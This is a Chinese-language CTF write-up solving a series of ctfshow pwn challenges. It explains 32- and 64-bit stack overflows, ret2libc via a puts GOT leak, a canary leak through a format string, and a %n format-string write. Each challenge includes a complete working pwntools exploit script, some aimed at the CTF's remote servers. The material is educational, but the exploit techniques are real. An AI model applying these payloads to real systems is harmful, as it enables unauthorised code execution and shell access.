## pwn02

先进行安全架构分析



这次待分析的二进制文件很特殊，是32位的小端序程序，因此发送地址的时候需要注意，我们只能填4位的地址

然后没有栈金丝雀保护，没有地址随机化，也没有去除符号表，很常见的栈溢出类型题目

直接进行逆向分析，main里的那些输出我暂时跳过了，直接分析pwnme函数

极其简单



顺手查看下stack



我们可以知道本题考察的是，如何利用pwnme的gets，通过溢出跳转到stack执行sh命令

```c
int pwnme()
{
  char s[9]; // [esp+Fh] [ebp-9h] BYREF

  fgets(s, n: 50, stream: stdin);
  return 0;
}
```

看看这里，s是字节类型数组，因此s只占9个字节，对照后面的ebp-9h,我可以轻松画出当前题目的栈布局

```text
高地址
+---------------------------+
|      其它东西，乱七八糟      |  ← ebp + 0x??
+---------------------------+
|          返回地址          |  ← ebp + 4 （4 字节）
+---------------------------+
|        保存的 ebp          |  ← ebp （4 字节）
+---------------------------+
|           s[8]            |  
|          ...              |  
|           s[0]            |  ← ebp - 0x9 （缓冲区起始）
+---------------------------+    (esp + 0xf)
|  ... 其他数据 只占0xf...   |
+---------------------------+
|                           |  ← esp（栈顶）
低地址
```

这里的gets允许我们一次性读取50字节，溢出绰绰有余，那就开始构造payload

`padding+ebp+stack_addr`

对应payload如下，需要注意，我们这次的脚本必须是32架构下的，原先常用的8字节在这里就不太一样了

> 我们电脑几乎都是64位的，要想在wsl正常运行32位程序，必须安装对应的依赖，依次输入这些命令
>
> sudo dpkg --add-architecture i386
>
> sudo apt install libc6:i386 libstdc++6:i386
>
> 

```python
from pwn import *

context.arch="i386"
stack_addr=0x0804850F
payload=flat(
    b"a"*13,
    stack_addr
)
p=process("./stack")
p.sendlineafter(b"32bits",payload)
p.interactive()
```



## pwn03

先进行安全架构分析，本题依然是32位二进制



除了栈不可执行，其它保护几乎都关了，很~~轻松~~的一个溢出题型

漏洞点并不难定位，在pwnme函数中，看到gets可以远远溢出s字节数组



但是我翻了好久好久，没找到后门程序，最起码的`system`​和`/bin/sh`都没找到，严重怀疑，本题考察的应该是ret2libc,那就先按照这个方向尝试，但是题目没给我们libc怎么办呢？只能自己动手丰衣足食，如果比赛断网情况下，出题人不给对应libc库，那就无解咯，除非本地几乎把所有版本的libc给下载下来了

那好，我们要想办法探测出远程环境下的libc版本，可以利用这里的溢出，通过调用puts函数，获取puts函数的地址，这是一份伪代码

```python
puts@plt(puts@got)
```

稍微严谨一点，ROP链的参数布局就应该如下：

```python
padding + puts@plt + 返回地址 + puts@got
```

然后我解释下got和plt的区别

我打个比方，GOT是通讯录，PLT是接线员，想象你要给朋友打电话

- PLT：你不知道朋友的最新号码，先打给接线员，接线员会帮忙查号码，然后进行转接
- GOT：就是那个记录号码的小本本，接线员查完后，会把号码记录下来，下次直接拨

‍

简单来说，PLT那边可以让我们直接执行puts函数，但是puts的真实内存地址被GOT记录

然后这里的plt和got的地址很轻松定位，先任意找个puts输出函数，main里太多太多了

一定要在汇编状态下进行哈，不然的话跳转过程中会丢失



双击箭头指向的puts



左侧就是`puts@plt`的地址，右侧可以双击，或者直接这样看，就是puts@got的地址



还有个更简单的方法，用pwntools就行

```python
from pwn import *

e=ELF('./stack1')
print(hex(e.plt['puts']))
print(hex(e.got['puts']))
```



okey，让我们来先构造第一阶段的payload

缓冲区溢出需要9+4=13字节，这个栈布局我就不画了哈，然后的payload链我在上面已经说过了，应该是这样的

```ruby
padding + puts@plt + 返回地址 + puts@got
```

这里得讲讲32位和64位执行函数的差异，32位的参数全部走栈，一点也不看寄存器

正常代码调用 puts 时,编译器生成:

```text
push  参数          ← 参数压栈
call  puts@plt      ← 压入返回地址,跳转
```

所以 puts 眼里栈是:`[返回地址][参数1][参数2]...`​,它从 `[esp+4]` 取参数

> system("/bin/sh")
>
> system -> 返回地址 -> /bin/sh_addr

这是调用puts时候的的栈布局

```text
内存低地址 (esp 方向 ↓)
                    ┌──────────────────────┐
  buf 溢出填充       │  padding  13 字节     │  ← 覆盖 buf(9B)+saved ebp(4B)
                    ├──────────────────────┤
  劫持返回地址 →      │  puts@plt  0x8048380 │  ← ret 弹到这里,开始执行 puts
                    ├──────────────────────┤
  puts 的"返回地址"   │  pwnme    0x80484bb  │  ← puts 执行完 ret 回这里(再读一次输入)
                    ├──────────────────────┤
  puts 的第1个参数   │  puts@got  0x804a010 │  ← puts 打印"这个地址里存的值"
                    ├──────────────────────┤
                    │  (后面被覆盖的垃圾)     │
                    └──────────────────────┘
                    内存高地址 (↑)
```

中间的返回地址是随意的，只要不超过边界，系统内部才不管呢 

```python
from pwn import *

context.arch = "i386"
e = ELF('./stack1')

puts_plt = e.plt['puts']   # 0x8048380
puts_got = e.got['puts']   # 0x804a010

payload = flat(
    b'a' * 13,
    puts_plt,
    0,
    puts_got
)

p = process("./stack1")
p.sendlineafter(b"32bits\n\n",payload)
leak=p.recvline()
print(leak)
print("puts real addr",hex(u32(leak[:4])))
p.close()
```



这是我本地运行出来的效果，算是泄露成功了，但是我们要交互打靶机环境下的libc，那么这里的process得切换到remote，这一部分我跳过，开始后续的教学



在我的题目中，puts@got的值是0xf7d7b360

这个时候可以使用在线工具libc.rip，它里面存储的libc库特别特别的全，非常安利



注意右侧，会看到蛮多i386库，这是因为我们只给了puts的地址，有两条路，就是一个一个去尝试，总有一个会成功

但是我选择第二条路，我们魔改下脚本，再找个符号，比如fgets



然后回到网站添加，发现这次的搜索结果只有一个，非常nice



直接下载即可

接下来就是打我们前面说过的ret2libc，先获取一些重要函数地址

puts,system,/bin/sh，基本上就这三样，当前我们找的仅仅是它在libc里的绝对地址，还缺个运行后的地址方便我们计算PIE，但是后者我们已经完成了，第一步交互就干的这件事



puts在0x67360



system在0x3cd10



/bin/sh在0x17b8cf

该找的都基本上找齐了，开始构造payload

```python
padding + system_addr + 返回地址 + sh_addr
```

但是我们必须提前获取该次靶机二进制中puts运行时候的地址

‍

简单来说就是靶机得注入两次，务必在一次会话中完成，不然由于ASLR，puts地址变化，一直算不对，不过一次交互发送两次注入很轻松，还记得payload1的返回地址吗？我们把返回地址改成pwnme，不就能注入两次了吗？

```python
from pwn import *

context.arch = "i386"
e = ELF('./stack1')

puts_plt = e.plt['puts']   # 0x8048380
puts_got = e.got['puts']   # 0x804a010
pwnme    = e.sym['pwnme']  # 0x80484bb

puts_libc_addr   = 0x67360
system_libc_addr = 0x3cd10
sh_libc_addr     = 0x17b8cf

payload1 = flat(
    b'a' * 13,
    puts_plt,
    pwnme,
    puts_got
)

def payload2(base):
    return flat(
        b'b' * 13,
        base + system_libc_addr,
        0,
        base + sh_libc_addr
    )

p = remote("pwn.challenge.ctf.show", 28292)
p.recvuntil(b"32bits\n\n")

p.sendline(payload1)
leak_line = p.recvline(timeout=5)
leak = u32(leak_line[:4])
print("[+] leaked puts =", hex(leak))
base = leak - puts_libc_addr
print("[+] libc base   =", hex(base))

p.sendline(payload2(base))
p.interactive()
```



## pwn05

先进行安全架构分析



32位小端序，没栈保护，地址固定，也没去除符号表，很友好的环境

进行逆向分析



在welcome里能看到很明显的溢出：s只能写16个字节，但是gets 可以几乎无限阅读下去，直到EOF或换行才能停止，来看看本题的栈布局

```python
------------------
|     返回地址     |
------------------
|     ebp        |
------------------
|  对齐用到了4字节 |
|-----------------
|    s[15]       |
|    ...         |
|    s[0]        |
------------------
| others 4字节   |
------------------
|     esp        |
------------------
```

思路很清晰了，接下来我们再找个后门函数，对应地址0x08048486



  

那就开始构造exp

```python
from pwn import *
# p=process("./pwn")
p=remote("pwn.challenge.ctf.show",28119)

context.arch="i386"
flag_addr=0x08048486
payload=b"a"*24+p32(flag_addr)
p.sendline(payload)
p.interactive()
```

本题解决成功

## pwn06

这个pwn相较前面题目稍微特殊了点，因为它属于64位架构，在函数调用上，我们必须考虑rsp是否对齐，以及传递参数的时候，是否能控制寄存器



直接看对应的架构，64位小端序，无栈保护，栈不可执行，地址不会随机化



看到它用的是gets函数，几乎可以无限制读取，然后这里的栈布局也很简单，数组空间上面直接是rbp，如果不考虑栈对齐的话，我们大可直接在rbp上面的返回地址写getflag的地址，但是整体就进行了一次ret操作，pop会让rsp+8,无法对齐，自然执行不了getflag里的system函数，因此我们需要再找个ret

```bash
ROPgadget --binary ./pwn | grep "ret"
```



这个0x40044e的ret刚刚好，那么直接编写payload



本题就这样，还是很简单的

```python
from pwn import *

context.arch="amd64"
get_flag_addr=0x400577
ret_addr=0x40044e

#p=process("./pwn")
p=remote("pwn.challenge.ctf.show",28243)
payload=flat(
    b"a"*20,
    ret_addr,
    get_flag_addr
)
p.sendline(payload)
p.interactive()
```

## pwn04

本题看上去是格式化输出漏洞，先检测安全架构



存在栈保护，但是地址不随机化，重要的是它是32位小端序，函数调用约定需要考虑

进行逆向分析，直接查看vuln



buf只有100字节的空间，但是read的时候一共要读0x200字节，很明显的溢出，但是呢，read过后却是printf输出，输出刚刚read的所有内容，后面会详细说这里的漏洞利用

再来看看getshell函数



getshell的地址在0x804859b,可以看出来这个会给我一个完整的shell

那么题目的整体思路应当能体会出来，需要想办法通过溢出或者别的漏洞方法，进入getshell函数，拿到flag

但是二进制内部存在栈保护啊，这个怎么办呢，这里就涉及关于如何绕过canary的考点了，简单来说就是让canary检查自己的，我们不动canary就好啦，然后剩下的随意

首先我们需要记住vuln里的几个关键地址

```python
0x804863a   mov [ebp-0xc], eax     <- canary 写入栈
0x8048656   call read              <- 第 1 次读输入
0x8048665   call printf            <- 泄露发生点（重点观察）
0x8048678   mov eax, [ebp-0xc]     <- 返回前的 canary 校验
```



接下来我们可以直接进入gdb进行，先说说我喜欢的pwngdb怎么安装

```yaml
git clone https://github.com/pwndbg/pwndbg
cd pwndbg
./setup.sh
```

安装好运行的时候直接`gdb ./xxx`就好

---

拓展知识--讲解什么是printf格式化漏洞

学过C语言的都知道，我们常用的printf语法是这样的

```c
printf("%s",buf)
```

这是正确的写法，后面的buf会被解析成`%s`打印出来的

如果我不加这里的%s控制呢？就是直接用`printf(buf)`输出怎么样？

注意看



我这一版测试明确的告诉我们，printf可以直接读取括号里的内容并打印输出，但是在本题中，括号里的内容，甚至包括双引号，都可以被我们控制，这意味着我们可以主动为printf注入想要的格式解析方法

我这里列举几个常见的printf语法

|占位符|含义|
| --------| ------------------------------------|
|%d|以十进制形式输出整数|
|%u|以十进制形式输出无符号整数|
|%x|以十六进制形式输出整数（小写字母）|
|%X|以十六进制形式输出整数（大写字母）|
|%o|以十进制形式输出整数|
|%f|以浮点数形式输出实数|
|%e|以指数形式输出实数|
|%g|自动选择%f或者%e输出实数|
|%c|输出单个字符|
|%s|输出字符串|
|%p|输出指针的地址|
|%n	|将已经输出的字符数写入参数|

但是在FMT漏洞利用中，我感觉最后两个最常见，毕竟一个可以输出地址，另一个可以在栈上进行写入操作

> 我上面的解释稍微浅显，我稍微拓展一二
>
> 在C语言的世界中，printf是可变参数函数，定义方法如下：
>
> ```c
> int printf(const char *fmt, ...);
> ```
>
> C语言调用可变参数函数时，编译器只负责“按格式串把参数压栈”，但是printf自己运行时根本不知道调用者实际传了几个参数，它的逻辑时:数一数fmt里有多少个%，就从栈上依次取多少个
>
> 如果格式串要求5个参数，实际只传递了一个，printf不会报错，它会照样往下取4个，取到的就是栈上不属于它的数据，包括但不限于局部变量、saved ebp、返回地址甚至canary,总之格式串说读取几个，它就读取几个，这就是完整的漏洞描述
>
> 然后我汇总这个漏洞的两种调用方法
>
> - 读取（信息泄露）
>
>   - %p / %x   把某个栈槽当十六进制打印 → 偷看栈内容
>   - %N$p      直接指定"取第 N 个参数"  → 精确瞄准某个槽
>   - %s        把某个槽当指针，解引用打印字符串 → 任意地址读（配合塞地址）
> - 写任意内容
>
>   - %n        把"已经输出的字节数"写到某个槽指向的地址 → 配合在格式串里塞目标地址，就能改写内存（经典玩法：改 GOT 劫持函数）
>
> 我猜测你对前两个读取方法有疑惑，我来详细讲讲它们之间的差异
>
> %p是顺序打印
>
> ```c
> printf("%p %p %p", a, b, c);
> // 输出: 0x1 0x2 0x3
> // 按顺序取参数：第1个参数a，第2个参数b，第3个参数c
> ```
>
> %N$p可以直接指定位置
>
> ```c
> printf("%3$p %1$p %2$p", a, b, c);
> // 输出: 0x3 0x1 0x2
> // %3$p 直接取第3个参数c，%1$p取第1个参数a
> ```
>
> 因此只要我们熟悉目标二进制的栈布局，就可以直接指定读取我们想要的内容，而不是让printf一次性打印一大堆

针对本题，我们只需要进行读取，重点是确认canary的值，canary的位置我们是清楚的，但是每次运行二进制的时候，它的值都会变化



注意看，var_C是`-0x0c`，我的光标那里整理下，就可以看作是ebp-0x0c，这就是本题canary固定的地址

现在栈布局应该能画出来了

```text
高地址
+------------------+
|  ebp             |  <- ebp
+------------------+
|  8个其他用途的字节  |  <- 也许是用来对齐的，对我们确定canary的内容没啥帮助 ebp-8
+------------------+
|    canary(4字节)  |  <- ebp-0xc
+------------------+
|  buf[99]         |         
|   ...            |  
|  buf[0]          |  <- buf栈 ebp-0x70   esp+8
+------------------+
低地址
```

教教你如何使用%N$p取想要的值，它有个换算公式，就是`esp+4*N`，只要我们能用esp表示出canary，就能得到对应的N

特别好算，我们不是知道buf后面的两个寄存器偏移指向的是同一个地址吗，那么就能得到一个等式，将里面的ebp用esp表示出来就好

```c
ebp-0x70=esp+8
ebp=esp+0x78
```

然后我们不是在栈布局里标注出canary的地址了吗？那么我们就能得到canary：`esp+0x78-0xc=esp+108=esp+4*27`​,那么我们只要输入`%27$p`即可得到canary的值

我们用gdb查看，这次我不打算炫技，就弄点最轻松的指令

先用`gdb ex2`进入，记得提前给ex2添加可执行权限

还记得我前面说的vuln里的几个关键地址吗，我再补充一次

```c
0x804863a   mov [ebp-0xc], eax     <- canary 写入栈
0x8048656   call read              <- 第 1 次读输入
0x8048665   call printf            <- 泄露发生点（重点观察）
0x8048678   mov eax, [ebp-0xc]     <- 返回前的 canary 校验
```

打断点就打上面这四条

在gdb中，如果我们要对某个地址打断点，可以直接使用`break *0x804863a` 或者break缩写，直接b

断点打好后，我们直接run



卡在输入之前是非常合理的，因为第一个断点的操作是给canary写值

先不讲解里面的内容，我来介绍下pwndbg不同部分的作用，不然这么乱的界面，初学者很容易搞混看不懂

首先pwndbg的界面可以分为5个部分

```text
┌─────────────────────────────────────────────────────────────┐
│ LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA          │  ← 图例
├─────────────────────────────────────────────────────────────┤
│ [ REGISTERS / show-flags off / show-compact-regs off ]    │  ← 寄存器区
│ EAX  0x7a8dd200                                            │
│ EBX  0xf7fa9e34                                            │
│ ...                                                        │
├─────────────────────────────────────────────────────────────┤
│ [ DISASM / i386 / set emulate on ]                        │  ← 反汇编区
│  ► 0x804863a <vuln+12>  mov dword ptr [ebp-0xc], eax    │
│    0x804863d <vuln+15>  xor eax, eax                     │
│    0x804863f <vuln+17>  mov dword ptr [ebp-0x74], 0     │
├─────────────────────────────────────────────────────────────┤
│ [ STACK ]                                                 │  ← 栈区
│ 00:0000│ esp 0xffffd870 —▸ 0xf7faad40                    │
│ 01:0004│-074 0xffffd874 —▸ 0xf7faad87                    │
│ 02:0008│-070 0xffffd878 ◂— 1                             │
├─────────────────────────────────────────────────────────────┤
│ [ BACKTRACE ]                                             │  ← 调用栈区
│ ► 0 0x804863a  vuln+12                                    │
│   1 0x80486c1  main+54                                    │
│   2 0xf7d9ecb9                                             │
└─────────────────────────────────────────────────────────────┘
```

第一个部分是LEGEND图例区，这只是一个提示，告诉你不同颜色代表什么，可以直接跳过

第二个部分是REGISTERS寄存器区，非常非常重要，它会从上往下依次罗列不同寄存器在当前指令运行时候的地址，因此一定要打好基础，至少要熟记常见的几个寄存器的作用

我这里记录几个常用寄存器的含义

- EAX:返回值/临时变量
- EBP:栈帧基址，用于访问局部变量
- ESP:栈顶指针，指向当前栈顶
- EIP:指令指针，指向当前执行的代码
- EBX/ECX/EDX:通用寄存器

上面仅仅是32位的几个常用寄存器，部分寄存器的作用和64位的相同，后面讲解64位动态调试的时候，我也会记录的

第三个部分是反汇编区，它也是蛮重要的，会将当前运行指令的上下汇编表示出来，和我们在ida里看的几乎一样，这里需要关注的地方是正在运行的指令左侧会有个小箭头，因此pwndbg会越用越离不开哈，确实，它特别特别厉害

第四部分是STACK栈区，这个才是我们玩pwndbg最主要看的

它的格式基本上都是：`[序号] [偏移] │ [地址] —▸ [值]`

如果栈布局画的贼熟练的话，这一部分就应该能很轻松读懂了

第五部分是BACKTRACE调用栈，它主要演示的是程序执行路径，比如main后面是get_flag呢？哈哈

行了，pwndbg的布局我基本上都讲到了，那就回归本题，我来说说第一个断点给我们提供了哪些信息



通过第一个断点，我们就已经清楚当前二进制的canary是`0x7a8dd200`了，然后对应的存储地址和我们前面静态分析的完全一样，这也能帮我们验证前面的分析暂时没有出现差错

暂时没啥要补充的了，我们可以进入下一个断点，进入方法是直接输入continue后回车，它会将当前断点执行掉，continue也有个缩写哦，就是c



来到了第二次断点，这里是断到read之前了，因此暂时不需要我们输入什么东西，注意DISASM反汇编部分，让我挺惊喜的是新版本pwndbg居然可以输出函数调用的几个参数的值，这太方便了

暂时没啥要说的了，我们直接c进入下一个断点，这个时候需要我们输入那串格式串



留意我中间画框部分，是当前断点部分，恰好是printf,然后留意它的参数，首先fmt是我需要的，但是pwndbg似乎尝试解析第二个参数，却将fmt给打印出来了，应该是工具的限制吧，不影响我们继续后面的操作，可以直接c看看printf输出的内容



悲剧了，输出结果为啥是ebx的值？（不要问俺ebx是哪个变量的值，我也不知道，至少在vuln里我没看到，大概率是其它无关代码里定义过的吧

也许是我前面的偏移计算有问题，唉，推倒重来，不过我们都在gdb中了，可以直接用近乎作弊的方法检测

首先这里的寄存器里写过`ebp=0xffffd8e8`​,`esp=0xffffd860`

我不是说过canary在`ebp-0xc`​吗？，带到里面就是`canary_addr=0xffffd8dc`​,那么这个地址和esp之间的距离呢？`offset=canary_addr-esp=124=31*N`​，那么我们前面写得`%27$p`​得改成`%31$p`，直接重新打断点运行，测试下

这次的canary的值是`0x918fec00`



这次注入后读取栈槽，发现就是我们一直找的canary



那么正确的payload1就是`%31$p`了，我后面部分示范的过程就是如果通过gdb获取具体偏移的方法，是不是近乎作弊级别？用游戏里的话术，就是开了

稍微回顾下，为啥我前面写的`%27$p`会错呢？结合正确答案，我只能把方向偏向于找的偏移值有问题，我稍微检查下


我知道问题出现在哪里了，还记得我前面是怎么介绍的esp吗？它始终指向的是当前栈顶，第一次断点是刚调用vuln函数时候的栈顶，第二次断点来到了call的运行栈，esp肯定要跳转啊

然后我最前面说的`%N$p=esp+4*N`是有作用域的，比如说本题中，我们要打印canary的话，必须以运行printf时候的栈顶为作用域，然后前面画的栈布局也恰好能看成printf的调用过程（read也可以，但是为了打印canary，我们就用printf来说，栈布局我放下面了，就不用往上翻了

```text
高地址
+------------------+
|  ebp             |  <- ebp
+------------------+
|  8个其他用途的字节  |  <- 也许是用来对齐的，对我们确定canary的内容没啥帮助 ebp-8
+------------------+
|    canary(4字节)  |  <- ebp-0xc
+------------------+
|  buf[99]         |         
|   ...            |  
|  buf[0]          |  <- buf栈 ebp-0x70   esp+8
+------------------+
低地址
```

综上，我感觉为了明确获取canary的值，我们只能通过gdb动调获取

然后总结了下我上面出错的原因，罪魁祸首就是下面这一行

```c
char buf[100]; // [esp+8h] [ebp-70h] BYREF
```

我无脑相信IDA里的esp的值了，但是忘记了，它会时刻变化，倘若esp始终不变，我的27绝对是正确的

欧克了，我们现在能保证获取到canary的值，接下来我们要做的事通过第二次的读取，溢出，跳转到getshell的地址，构造的payload链应该如下：

```c
padding1+canary+padding2(8字节对齐+4字节的saved ebp)+getshell_addr
```

```python
from pwn import *

getshell_addr=0x0804859B
context.arch="i386"
payload1=b"%31$p"
def payload2(canary_value):
    return flat(
        b"a"*100,
        canary_value,
        b"a"*12,
        getshell_addr,
    )
#p=process("./ex2")
p=remote("pwn.challenge.ctf.show",28196)
p.sendlineafter(b"Hello Hacker!\n",payload1)
canary_value=int(p.recvline(),16)
print(hex(canary_value))
p.sendline(payload2(canary_value))
p.interactive()
```

真的很不错的题目



## pwn07

先进行架构分析



相当开放，64位小端序，没栈保护，地址不会随机化，也没有去除符号表

进行逆向分析，很清晰的溢出，但是这里的返回是个puts函数，这个和前面学的栈溢出例题有差异



接下来检查二进制其它地方，找不到任何system相关函数，也没有执行权限的栈空间，我们应该能很快意识到，本题考察的是ret2libc，这样也能解释为何漏洞函数会故意返回puts，这是专门让我们打印某些libc函数地址的

之前的课程我已经讲过了，所以这里我就不解释为何我要它打印`puts@got`了

然后这里的参数只能走寄存器，因此我们还需要找个`pop rdi`，地址是 0x04006e3



接下来构造第一阶段的payload

```c
padding+pop_rdi_addrr+puts@got+puts@plt+返回地址
```

```python
from pwn import *

context.arch="amd64"
pop_rdi_addr=0x04006e3
e=ELF("./pwn")
puts_got_addr=e.got["puts"]
puts_plt_addr=e.plt["puts"]
welcome_addr=e.sym["welcome"]
payload=flat(
    b"a"*20,
    pop_rdi_addr,
    puts_got_addr,
    puts_plt_addr,
    0
)
p=process("./pwn")
p.sendline(payload)
p.recvline()
puts_libc=u64(p.recv(6).ljust(8, b"\x00"))
print(hex(puts_libc))
p.interactive()
```



发现两次运行的末尾都是固定cc0，满足libc地址随机化的特性

接下来可以直接前往libc.rip进行查库（我在这个示例中完全弄得本地，解题的时候不要全部照搬，需要自己理解



建议打印两次，这样的话方便交叉锁定唯一一个libc库，否则就要不停的尝试

我就不逆向libc了，通过网站给的表，我整理了下我需要的地址

```c
system_addr=0x58750
bin_sh_addr=0x1cb42f
puts_addr=0x87cc0
```

上述仅仅是对应函数的绝对路径，接下来我们还需要借助payload1进行泄露puts运行地址，计算PIE，获取真实运行的system地址,因此返回地址必须回到welcome，方便两次读取的时候，函数地址不变

> 警告，这次是64位二进制，我们payload2里要用到libc系的system，因此RSP必须栈对齐，大致算了算，必须补充一个ret,可以自行使用ROPgadget获取

```python
from pwn import *

context.arch="amd64"
pop_rdi_addr=0x04006e3
system_addr=0x58750
bin_sh_addr=0x1cb42f
puts_addr=0x87cc0
ret_addr=0x04004c6
e=ELF("./pwn")
puts_got_addr=e.got["puts"]
puts_plt_addr=e.plt["puts"]
welcome_addr=e.sym["welcome"]
payload1=flat(           # welcome ret rsp+8
    b"a"*20,
    pop_rdi_addr,        # pop rdi; ret rsp+16
    puts_got_addr,
    puts_plt_addr,
    welcome_addr         # ret rsp+8
)
# def payload2(base):
#     return flat(           # welcome ret rsp+8
#         b"a"*20,
#         pop_rdi_addr,        # pop rdi; ret rsp+16
#         base+bin_sh_addr,
#         base+system_addr,    # 没对齐，需要一个ret
#         0
#     )
def payload2(base):
    return flat(
        b"a"*20,
        pop_rdi_addr,        # pop rdi; ret rsp+16
        base+bin_sh_addr,
        ret_addr,
        base+system_addr,    # 这次对齐了，可以直接用
        0
    )

p=process("./pwn")
p.sendline(payload1)
p.recvline()
puts_run_addr=u64(p.recv(6).ljust(8, b"\x00"))
print(hex(puts_run_addr))
base=puts_run_addr-puts_addr
p.sendline(payload2(base))
p.interactive()
```



回顾下第一步payload的构造，我为何一定要选择溢出而不是直接将got地址交给gets，让puts打印呢，因为64位函数调用约定传递参数必须将参数保留在二进制上，如果我们不溢出，那么当前的rdi寄存器里存储的是字节数组s的地址指针，自然无法打印出我们想要的got值

## 01栈溢出之ret2text

本题过于简单，我就放个payload

```python
from pwn import *

e=ELF("./pwn")
context.arch="amd64"
ctfshow_addr=e.sym["ctfshow"]
ret_addr=0x4004fe
payload=flat(
    b"a"*136,
    ret_addr,
    ctfshow_addr
)
# p=process("./pwn")
p=remote("pwn.challenge.ctf.show", 28179)
p.sendline(payload)
p.interactive()
```

## pwn10

这题的逆向有点点不好读

先来进行架构分析



32位小端序，没栈保护，栈不可执行，地址不随机化，没去除符号表

进行逆向分析，漏洞点可以很轻松的看到，本题考察的是printf格式化漏洞中的写入操作

```c
// bad sp value at call has been detected, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp-14h] [ebp-80h]
  int v5; // [esp-10h] [ebp-7Ch]
  int v6; // [esp-Ch] [ebp-78h]
  int v7; // [esp-8h] [ebp-74h]
  int v8; // [esp-4h] [ebp-70h]
  _DWORD format[27]; // [esp+0h] [ebp-6Ch] BYREF

  format[25] = &argc;
  setvbuf(stream: stdin, buf: nullptr, modes: 1, n: 0);
  setvbuf(stream: stdout, buf: nullptr, modes: 2, n: 0);
  printf(format: "try pwn me?");
  ((void (__stdcall *)(const char *, _DWORD *, int, int, int, int, int))__isoc99_scanf)(
    a1: "%s",
    a2: format,
    a3: v4,
    a4: v5,
    a5: v6,
    a6: v7,
    a7: v8);
  printf((const char *)format);
  if ( num == 16 )
    system(command: "cat flag");
  else
    puts(s: aYouMayNeedToKe);
  return 0;
}
```

挑战成功拿到shell的前提是我们能让全局变量num的值改为16，想实现这一操作需要利用`payload:%N$n`

这里的N同样是栈槽的索引，代码分析过程中，发现二进制没有为printf清理栈内容，因此栈上会出现垃圾字符（当然，这不会影响程序的执行，因为系统底层清楚自己要读的是哪个栈槽的值，并不是一定要按照顺序依次传递

我说栈上存在垃圾字符是因为我们要考虑printf具体能控制的栈偏移，举个例子

我们输入AAAA和多个%p，会看到中间部分都没有返回我想要的0x41414141,一直到第七个%p才能出现，这说明前面6个栈槽都有垃圾字节，系统底层会让printf跳过的

```text
AAAA0xffffd89c.0xffffd89c.0x2.0x0.0xf7ffdb8c.0x1.0xf7fbf720.0x41414141.0x...
                                                      ^^^^^^^^^^
                                                      第7个 %p 显示 AAAA
```

正常解决这类题的时候，我们一般是用pwndbg快速查看

```c
break *0x080485D0
run
```

在输入部分输入AAAA就好，因为它的字节是0x41414141，特别好找

卡到断点后，输入`x/20wx $esp`查看内存

- x 用于查看内存内容
- /20 显示20个单元
- w 单元大小，b是1字节，h是2字节，w是4字节，g是8字节
- x 显示格式，x是十六进制，d是十进制，还有u,o,t,a,c,s，自行搜索对应的作用
- $esp 这里设置起始地址，我这里设置的是以当前栈顶寄存器为起始地址，开始向高地址打印内存

注意到我这里的AAAA恰好在第七个栈槽（栈槽是从0开始索引的



还记得我之前用printf漏洞读取时候写得公式吗？`addr=esp+4*N`写入的时候也可以用，作用域的要求是一致的，都必须在printf的esp基础上算，那么本题的N就是7

然后说说怎么写16到num里

printf的%n格式化符的作用：将已经输出的字符数写入到指定地址

```c
printf("AAAA%n", &num);  
// 输出 4 个字符 "AAAA"
// %n 将 4 写入 num
// 因为 "AAAA" 有 4 个字符
```

要控制num为16，我们得在栈上先写16个字符，然后使用`%7$n`传递给num参数，理论上我们手写16个空格都行，但是统一打包给控制符要好看的多，就是`%16c%7$n`的效果会很好

这是调用printf时候的栈布局

```php
栈布局（调用 printf 时）：
┌─────────────────────────────────────┐
│ 槽位0: 0xffffd89c  ← format指针     │
├─────────────────────────────────────┤
│ 槽位1: 0xffffd89c                   │
├─────────────────────────────────────┤
│ 槽位2: 0x00000002                   │
├─────────────────────────────────────┤
│ 槽位3: 0x00000000                   │
├─────────────────────────────────────┤
│ 槽位4: 0xf7ffdb8c                   │
├─────────────────────────────────────┤
│ 槽位5: 0x00000001                   │
├─────────────────────────────────────┤
│ 槽位6: 0xf7fbf720                   │
├─────────────────────────────────────┤
│ 槽位7: 0x0804A030  ← num 的地址     │  ← p32(num_addr)
├─────────────────────────────────────┤
│ 槽位8: "%16c%7$n" 的 ASCII          │  ← 格式化字符串
└─────────────────────────────────────┘
```

那就开始编写本题的exp

```cpp
from pwn import *

e=ELF("./pwn")
context.arch="i386"
num_addr=e.symbols["num"]
payload=flat(
    num_addr,
    b"%16c%7$n"
)
p=process("./pwn")
# p=remote("pwn.challenge.ctf.show", 28179)
p.recvuntil(b"try pwn me?")
p.sendline(payload)
p.interactive()
```

直接运行会触发失败跳转，解释下原因，我们是不是先写了4个字节的num地址，然后填了16个空格呢？那么这么算下来，我们是不是在栈上写了20字节呢？这就是问题所在，正常来说我们只要16字节数量就可以了，因此，我们后面填的空格数需要调整成12，只有这样，我们才能让num变成16，成功读取flag



‍
